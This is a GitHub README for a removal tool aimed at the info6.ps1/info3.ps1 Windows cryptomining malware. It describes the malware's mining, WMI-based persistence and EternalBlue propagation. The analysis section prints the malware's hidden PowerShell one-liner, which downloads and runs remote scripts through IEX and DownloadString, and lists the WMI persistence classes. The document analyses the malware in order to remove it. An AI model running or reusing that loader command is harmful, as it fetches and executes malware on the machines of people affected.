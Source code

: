 # AntiMining-info6

#### By Carlos Ramírez López

## ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:

  - Performance modification in the computer equipment to "high performance" through the Windows registry.
  - Mining of cryptocurrencies, increasing CPU processing between 70% and 100%. (Image 1)
  - Persistence in infected computers, modifications of Windows variable classes. (Image 2 and 3)
  - Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment. (Image 4)

#### Image 1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/CPU.jpg)

#### Image 2
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Clases.jpg)

#### Image 3
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Infected_Class.jpg)

#### Image 4
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Scan.jpg)

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.
Malware info6.ps1 and info3.ps1
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_Total1.jpg)

malware in the operating system
![alt tag](https://github.com/BillyV4/AntiMining-info6/blob/master/Screenshot/Virus_total2.jpg)


### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:
#### DO NOT EXECUTE THE FALLOWING COMMAND

```
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
```
#### The malware creates persistence stored in classes:
```
__FilterToConsumerBinding
CommandLineEventConsumer
__EventFilter –filter
```
## Elimination of malware

To eliminate the malware it is necessary to eliminate the variables the content of the affected variables where the malicious script is stored.
For this we only need to eliminate the powershell.exe from the task manager and execute the AntiMining-info6.bat script by double clicking on it, automatically removing the malware.

